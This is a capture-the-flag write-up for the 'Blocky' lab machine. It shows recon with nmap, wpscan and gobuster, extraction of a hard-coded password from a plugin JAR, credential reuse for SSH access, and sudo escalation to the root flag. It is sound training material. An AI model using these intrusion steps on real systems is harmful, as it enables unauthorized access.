


# Blocky


## Recon

### Service Discovery
Begin, as usual, with an `nmap` scan:

```
$ nmap -sV -sC -T4 -oN nmap_scan.txt 10.10.10.37
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The target is a Unix box that is running FTP, SSH, and HTTP. Since the site is
built on WordPress, let's run `wpscan` to enumerate users and vulnerable
plugins:

```
$ wpscan --url http://10.10.10.37 --enumerate u, vp -o wpscan.log

...REDACTED...

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...REDACTED...
```

I redacted some of the scan info, but we can see that there is a Notch user.
Let's use `gobuster` to find a hidden admin login panel:

```
$ gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee gobuster.txt

/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
```

Looks like we can login to either /wp-admin or /phpmyadmin. At this point, we
can try to brute force the credentials with a tool like `hydra`. However, I
wanted to continue looking around the website for any other key info.


### Information Discovery

In the /plugins folder are two JAR (**J**ava **A**rchive) files. Download and
extract them.

```
$ wget http://10.10.10.37/plugins/files/BlockyCore.jar 
$ wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
$ jar -xf BlockyCore.jar
$ jar -xf griefprevention*.jar
```

Both files are now extracted. I was able to find something interesting by
running `strings` on com/myfirstplugin/BlockyCore.class:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                                                                                                                                     
java/lang/Object                                                                                                                                                                                                 
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

We see the username `root` and password `8YsqfCTnvxAUeduzjNSXe22`! I used these
credentials to log into the /phpmyadmin page, but they did not work on the
/wp-login page.

In the phpmyadmin panel I found the below user information:



There's the password hash for the Notch user!

[CrackStation](https://crackstation.net/) was unable to crack this, so I
searched online for "$P$ hash". 
I found [this StackOverflow
post](https://stackoverflow.com/questions/1045988/what-type-of-hash-does-wordpress-use)
that states WordPress uses the [portable PHP password hashing
framework](https://www.openwall.com/phpass/).

I figured if I could login to the wp-login page, I could upload a PHP reverse
shell and compromise the machine. I went down a rabbit hole trying to crack
Notch's password with this [Python script I pulled from
GitHub](https://github.com/micahflee/phpass_crack). 

This did not work. Next, I tried changing Notch's password to "password "in the
phpmyadmin
panel:



However, this did not work either - I still could not login to the WordPress
account! At this point I gave up on the WordPress website and moved on to
exploring the FTP and SSH servers.

## Initial Foothold (success)

Using the credentials **notch:8YsqfCTnvxAUeduzjNSXe22** I successfully logged
into the FTP and SSH servers.

The user flag is found in the `user.txt` file.

## Privilege Escalation

Now we need to find the root flag. One privilege escalation technique that I
always start with is running `sudo -l` to list what, if any, commands the
current user
can run as root.

```
$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

The "(ALL : ALL) ALL" means we can run all commands as root! So we can easily
`cat` out the root flag:

```
$ sudo cat /root/root.txt
```
